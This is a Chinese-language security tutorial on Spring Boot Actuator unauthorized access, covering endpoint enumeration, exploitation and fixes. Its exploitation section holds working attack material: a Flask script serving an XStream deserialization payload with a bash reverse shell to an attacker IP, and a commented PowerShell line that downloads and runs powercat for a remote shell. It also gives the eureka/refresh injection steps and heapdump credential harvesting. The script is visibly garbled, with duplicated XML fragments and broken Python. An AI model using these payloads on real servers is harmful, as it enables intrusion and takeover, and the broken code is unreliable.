

# Spring Boot Actuator未授权访问


### 1.1、漏洞描述

Actuator 是 springboot 提供的用来对应用系统进行自省和监控的功能模块，借助于 Actuator 开发者可以很方便地对应用系统某些监控指标进行查看、统计。

Actuator提供了一组默认的端点路径，如/autoconfig、/env、/metrics等。如果这些端点路径可以被未经授权的用户或系统访问，且响应包含系统的敏感信息、配置信息、性能指标等,则存在未授权访问漏洞。

在 Actuator 启用的情况下，如果没有做好相关权限控制，非法用户可通过访问默认的执行器端点（endpoints）来获取应用系统中的监控信息，从而导致信息泄露甚至服务器被接管的事件发生。默认配置会出现接口未授权访问，部分接口会泄露网站流量信息和内存信息等，使用Jolokia库特性甚至可以远程执行任意代码，获取服务器权限。

**未授权判定标准：**

1、访问端点路径：Actuator提供了一组默认的端点路径，如/actuator、/env、/metrics等。如果这些端点路径可以被未经授权的用户或系统访问，且响应包含系统的敏感信息、配置信息、性能指标等,则存在未授权访问漏洞。

```bash
/actuator
/auditevents
/autoconfig
/beans
/caches
/conditions
/configprops
/docs
/dump
/env
/flyway
/health
/heapdump
/httptrace
/info
/intergrationgraph
/jolokia
/logfile
/loggers
/liquibase
/metrics
/mappings
/prometheus
/refresh
/scheduledtasks
/sessions
/shutdown
/trace
/threaddump
/actuator/auditevents
/actuator/beans
/actuator/health
/actuator/conditions
/actuator/configprops
/actuator/env
/actuator/info
/actuator/loggers
/actuator/heapdump
/actuator/threaddump
/actuator/metrics
/actuator/scheduledtasks
/actuator/httptrace
/actuator/mappings
/actuator/jolokia
/actuator/hystrix.stream
```

其提供的执行器端点分为两类：原生端点和用户自定义扩展端点，原生端点主要有：


2、在访问Actuator端点后，可以执行一些可能的未授权操作，如重启应用程序、关闭数据库连接等。

3、访问 /jolokia/list 接口，查看是否存在 ch.qos.logback.classic.jmx.JMXConfigurator 和 reloadByURL 关键词。若存在，则有可能造成造成命令执行。


### 1.3、漏洞复现

#### 1、漏洞发现

通常识别当前 web 应用使用的框架为 springboot 框架。主要有两个方法判断：

1、通过 web 应用程序网页标签的图标（favicon.ico）；如果 web 应用开发者没有修改 springboot web 应用的默认图标，那么进入应用首页后可以看到如下默认的绿色小图标


2、通过 springboot 框架默认报错页面；如果 web 应用开发者没有修改 springboot web 应用的默认 4xx、5xx 报错页面，那么当 web 应用程序出现 4xx、5xx 错误时，会报错如下（此处仅以 404 报错页面为例）：访问一个随便构造的路径，比如：http:/xxxxxxx:8090/index，出现如下报错页面说明web网站使用了springboot框架（在实际中遇到的大多数都是此类情况）


综合以上两个途径来判断当前 web 应用是否是 springboot 框架，就是通过访问不同的目录，看是否有小绿叶图标，然后就是想办法在不同目录下触发应用程序的 4xx 或 5xx 错误，看是否有 Whitelabel Error Page 报错。

#### 2、漏洞利用

访问/trace端点获取基本的 HTTP 请求跟踪信息（时间戳、HTTP 头等），如果存在登录用户的操作请求，可以伪造cookie进行登录。


访问/env端点获取全部环境属性，由于 actuator 会监控站点 mysql、mangodb 之类的数据库服务，所以通过监控信息有时可以mysql、mangodb 数据库信息，如果数据库正好开放在公网，那么造成的危害是巨大的，


/env端点配置不当造成RCE，

前置条件：Eureka-Client <1.8.7（多见于Spring Cloud Netflix）

比如测试前台json报错泄露包名就是使用netflix


需要以下两个包（环境已经安装）

spring-boot-starter-actuator（/refresh刷新配置需要）

spring-cloud-starter-netflix-eureka-client（功能依赖）

利用python3启动脚本，需要注意两个地方，一个为接收shell的ip和端口，另一个为我们脚本启动的端口，

```python
# linux反弹shell bash -i >&amp; /dev/tcp/192.168.20.82/9999 0>&amp;1
# windows反弹shell
# <string>powershell</string>
# <string>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');</string>
# <string>powercat -c 192.168.123.1 -p 2333 -e cmd</string>
from flask import Flask,Response
 
app =Flask(_name_)
 
@app.route('/xstream', defaults={ ''})
@app.route('/xstream/<path:path>')
def catch_all(path):
    xml = """<linked-hash-set>
	<jdk.nashorn.internal.objects.NativeString>
	 <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Date">
	 <dataHandler>
	 <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
	 <is class="javax.crypto.CipherInputStream">
	 <cipher class="javax.crypto.NullCipher">
	 <serviceIterator class="javax.imageio.spi.FilterIterator">
     <iter class="javax.imageio.spi.FilterIterator">
	 <iter class="java.util.Collections$EmptyIterator"/>
	 <next class="java.lang.ProcessBuilder">
	<command>
	<string>bash</string>
	<string>-c</string>
	<string>bash -i >&amp; /dev/tcp/10.9.75.6/1234 0>&amp;1</string>      //攻击机的IP
	</command>
	<redirectErrorStream>false</redirectErrorStream>
	</next>
	</iter>
	<filter class="javax.imageio.ImageIO$ContainsFilter">
	<method>
	<class>java.lang.ProcessBuilder</class>
    <name>start</name>
	<parameter-types/>
	</method>
    <name>foo</name>
	</filter>
	<next class="string">foo</next>
	</serviceIterator>
	<lock/>
	</cipher>
	<input class="java.lang.ProcessBuilder$NullInputStream"/>
	<ibuffer></ibuffer>
	</is>
	</dataSource>
	</dataHandler>
	 </value>
	</jdk.nashorn.internal.objects.NativeString>
	</linked-hash-set>"""
	 </is>
	</dataSource>
	</dataHandler>
	</value>
	</jdk.nashorn.internal.objects.NativeString>
	</linked-hash-set>"""
	return Response(xml, mimetype='application/xml')
	if __name__ == "__main__":
	app.run(host='0.0.0.0', port=2333)
```


Nc监听一个端口用以接收反弹shell，

写入配置，访问/env端点，抓包将get请求改为post请求，post内容为（该ip为脚本启动的机器的ip）：

```bash
eureka.client.serviceUrl.defaultZone=http://10.1.1.135:2333/xstream
```


然后再访问/refresh,抓包将get请求更改为post请求，post数据随意，


然后在我们nc的窗口可以看到成功反弹了一个shell回来。


##### heapdump泄露利用

Spring Boot Actuator的堆转储功能如果没有适当的配置，可能是一个安全漏洞。它允许通过URL获取正在运行的JVM的堆转储，其中可能包含敏感信息。

访问`/heapdump`接口下载heapdump文件。

利用工具：https://github.com/wyzxxz/heapdump_tool

利用环境地址：https://github.com/callicoder/spring-boot-actuator-demo

下载demo代码

```text
git clone https://github.com/callicoder/spring-boot-actuator-demo.git
```

maven将项目代码构建成jar包。

```text
mvn package
```

启动Spring Boot应用程序

```text
java -jar target/actuator-demo-0.0.1-SNAPSHOT.jar
```


访问`8080`端口


访问`http://10.9.75.6:8080/actuator/heapdump`下载文件

```bash
 D:\Software\Java\jdk1.8.0_281\bin\java.exe  -jar .\heapdump_tool.jar .\heapdump
```

> 选择1，获取全部内容
>
> 然后输入关键字
>
> 查询方式：
>
> 1. 关键词 例如 password
> 2. 字符长度 len=10 获取长度为10的所有key或者value值
> 3. 按顺序获取 num=1-100 获取顺序1-100的字符 获取url,file,ip geturl 获取所有字符串中的url getfile 获取所有字符串中的文件路径文件名 getip 获取所有字符串中的ip
> 4. 关键词 例如 password
> 5. 字符长度 len=10 获取长度为10的所有key或者value值
> 6. 按顺序获取 num=1-100 获取顺序1-100的字符 获取url,file,ip geturl 获取所有字符串中的url getfile 获取所有字符串中的文件路径文件名 getip 获取所有字符串中的ip 默认不输出查询结果非key-value格式的数据，需要获取所有值，输入all=true，all=false取消显示所有值。

获取密码


获取IP


获取url



获取文件路径

- 此功能可获取到目标系统的依赖版本。


### 1.4、修复建议

#### 1、配置认证

在项目的pom.xml文件下引入spring-boot-starter-security依赖

```xml
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-security</artifactId>
</dependency>
```


然后在application.properties中开启security功能，配置访问账号密码，重启应用即可弹出。

```properties
management.security.enabled=true
security.user.name=admin
security.user.password=admin
```


#### 2、禁用接口

禁用全部接口：

```properties
endpoints.enabled = false
```

禁用部分接口，如env:

```properties
endpoints.env.enabled = false
management.endpoints.web.exposure.exclude=env,heapdump,threaddump,mappings
# 完全禁用actuator
management.server.port=-1
```

### 1.5、参考

- https://www.cnblogs.com/junsec/p/12066305.html

- https://www.freebuf.com/news/193509.html

- https://zhuanlan.zhihu.com/p/602691208

- https://blog.csdn.net/weixin_44309905/article/details/127279561

  
